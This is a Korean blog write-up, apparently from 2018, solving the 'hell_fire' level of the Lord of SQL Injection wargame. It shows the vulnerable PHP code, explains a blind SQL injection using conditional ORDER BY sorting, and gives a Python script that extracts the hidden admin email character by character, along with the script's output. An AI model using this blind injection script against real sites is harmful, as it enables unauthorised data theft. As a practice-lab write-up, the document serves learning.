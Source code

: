 ```yaml
---
title: "[Lord of SQL Injection] LoS - hell_fire 문제풀이"
date: 2018-08-23
draft: false
category: [wargame]
subcategories: [lord-of-sql-injection]
tags: [Write-up, Lord of SQL Injection]
---
```


이번 문제에는 위에 갑자기 표가 나온다.
그리고 `pw`를 맞추는게 아니라 이번에는 `email` 주소를 알아야 한다.  

<!--more-->

코드는 다음과 같다.  

```php
------------------------------------------------------------------------------------------
query : select id,email,score from prob_hell_fire where 1 order by
------------------------------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|proc|union/i', $_GET[order])) exit("No Hack ~_~");
  $query = "select id,email,score from prob_hell_fire where 1 order by {$_GET[order]}";
  echo "<table border=1><tr><th>id</th><th>email</th><th>score</th>";
  $rows = mysql_query($query);
  while(($result = mysql_fetch_array($rows))){
    if($result['id'] == "admin") $result['email'] = "**************";
    echo "<tr><td>{$result[id]}</td><td>{$result[email]}</td><td>{$result[score]}</td></tr>";
  }
  echo "</table><hr>query : <strong>{$query}</strong><hr>";

  $_GET[email] = addslashes($_GET[email]);
  $query = "select email from prob_hell_fire where id='admin' and email='{$_GET[email]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['email']) && ($result['email'] === $_GET['email'])) solve("hell_fire");
  highlight_file(__FILE__);
?>
```

코드를 살펴보면 내가 입력한 값은 `order by` 뒤에 들어간다.
그리고 `id, email, score`를 추출 하는데, 이 때 `admin`의 `email` 주소는 `**************`로 처리된다.
쿼리문 위에는 표가 나타나는데, 형태는 다음과 같다.

|id|   |email|   |score|
|---|---|---|---|---|
| |   | |   | |

일단 무슨 값이 저장되어 있는지 확인하기 위해서, `?order=id`를 입력해 보았다.
그랬더니 표에 다음과 같이 데이터가 나왔다.  

|id|   |email|   |score|
|---|---|---|---|---|
|admin|   |**************|   |200|
|rubiya|   |rubiya805@gmail.cm|   |100|

그래서 문제를 어떻게 풀어야하는지 고민하다가, `order by` 뒤에 `if`문을 사용할 수 있다는 사실을 깨달았다.
내가 처음에 생각 한 방법은, `?order=if(id='admin' and length(email)>0, score, id)`를 쿼리스트링으로 넘겨주는 것이었다.
그럼 쿼리문이 아래와 같이 완성된다.  

```mysql
select id,email,score from prob_hell_fire where 1 order by if(id='admin' and length(email)>0, score, id)
```

그렇다면 만약 `id`가 `admin`이고, 그 `email`의 길이가 `0`보다 크다면 조건이 참이기 때문에 `score`를 기준으로 정렬 할 것이고, 아니라면 `id`를 기준으로 정렬 할 것이라고 생각했다.
그럼 참이라면 `rubiya` 행이, 거짓이라면 `admin`의 행이 위에 나타나게 될 것이다.
실제로 내가 데이터베이스에서 테스트 해 보면 정상적으로 실행 됬었다.
그런데 문제에서는 그게 안됬다.
`id`를 `rubiya`로 두고 테스트를 할 때는 제대로 참, 거짓에 따라 `score` 혹은 `id`를 기준으로 정렬했다.
그런데 `id='admin'`으로 두고 테스트 하면 무조건 `admin`인 행이 위에 나온다.

왜 때문인지 모르겠다.
그리고 또 한가지 이상한 점이 있는데, 쿼리스트링으로 `?order=if(id='admin' and length(email)>0, score, 9999)`를 넘겨주면 일단 참, 거짓 반응을 구분할 수 있다.
하지만 `참`일 때 `score`를 기준으로 정렬하는게 아니라, `거짓`일 때 `score`를 기준으로 정렬을 해 조건이 맞지 않으면 `rubiya`가 위에 나왔다.
얘도 왜그러는지 모르겠다...ㅎ

그런데 어쨌든 참, 거짓에 따라 결과가 구분이 되길래 아래와 같이 코드를 짜서 돌려 보았다.
만약 값이 참이라면 `admin` 행이, 거짓이라면 `rubiya` 행이 위에 나와서, `admin` 행이 위에 나온다면 그 값을 뽑아오게 했다.  

```python
import requests

flag = ""
length = 0

url = "http://los.rubiya.kr/hell_fire_309d5f471fbdd4722d221835380bb805.php?order="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 30):
	try:
		query = url + "if((id='admin' and length(email)=" + str(i) + "), score, 9999)"
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue
	if '<td>200</td></tr><tr><td>rubiya</td>' in r.text:
		length = i
		break

print "[+] Found length : ", length

print "[+] Find password"

for j in range(1, length + 1):
	for i in range(33, 128):
		try:
			query = url + "if((id='admin' and ord(substr(email, " + str(j) + ", 1))=" + str(i) + "), score, 9999)"
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if '<td>200</td></tr><tr><td>rubiya</td>' in r.text:
			flag += chr(i)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

그랬더니 소스코드가 정상적으로 실행되서 문제를 풀 수 있었다.  

```bash
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  28
[+] Find password
[+] Found 1 : a
[+] Found 2 : ad
[+] Found 3 : adm
[+] Found 4 : admi
[+] Found 5 : admin
[+] Found 6 : admin_
[+] Found 7 : admin_s
[+] Found 8 : admin_se
[+] Found 9 : admin_sec
[+] Found 10 : admin_secu
[+] Found 11 : admin_secur
[+] Found 12 : admin_secure
[+] Found 13 : admin_secure_
[+] Found 14 : admin_secure_e
[+] Found 15 : admin_secure_em
[+] Found 16 : admin_secure_ema
[+] Found 17 : admin_secure_emai
[+] Found 18 : admin_secure_email
[+] Found 19 : admin_secure_email@
[+] Found 20 : admin_secure_email@e
[+] Found 21 : admin_secure_email@em
[+] Found 22 : admin_secure_email@ema
[+] Found 23 : admin_secure_email@emai
[+] Found 24 : admin_secure_email@emai1
[+] Found 25 : admin_secure_email@emai1.
[+] Found 26 : admin_secure_email@emai1.c
[+] Found 27 : admin_secure_email@emai1.co
[+] Found 28 : admin_secure_email@emai1.com
[+] Found password :  admin_secure_email@emai1.com
[+] End
```

이 이메일 주소를 아래와 같이 쿼리스트링으로 넘겨주었더니 문제를 풀 수 있었다.  

```plain
?email=admin_secure_email@emai1.com
```

근데 왜 처음에 생각한 방법이 먹히지 않는지, 왜 거짓일 때 `score`를 기준으로 정렬하는지는 아직도 모르겠다.
나중에 알게된다면 정리 해 둬야겠다.  

```php
------------------------------------------------------------------------------------------
query : select id,email,score from prob_hell_fire where 1 order by
------------------------------------------------------------------------------------------

HELL_FIRE Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|proc|union/i', $_GET[order])) exit("No Hack ~_~");
  $query = "select id,email,score from prob_hell_fire where 1 order by {$_GET[order]}";
  echo "<table border=1><tr><th>id</th><th>email</th><th>score</th>";
  $rows = mysql_query($query);
  while(($result = mysql_fetch_array($rows))){
    if($result['id'] == "admin") $result['email'] = "**************";
    echo "<tr><td>{$result[id]}</td><td>{$result[email]}</td><td>{$result[score]}</td></tr>";
  }
  echo "</table><hr>query : <strong>{$query}</strong><hr>";

  $_GET[email] = addslashes($_GET[email]);
  $query = "select email from prob_hell_fire where id='admin' and email='{$_GET[email]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['email']) && ($result['email'] === $_GET['email'])) solve("hell_fire");
  highlight_file(__FILE__);
?>
```

---

```plain
HELL_FIRE Clear!!
```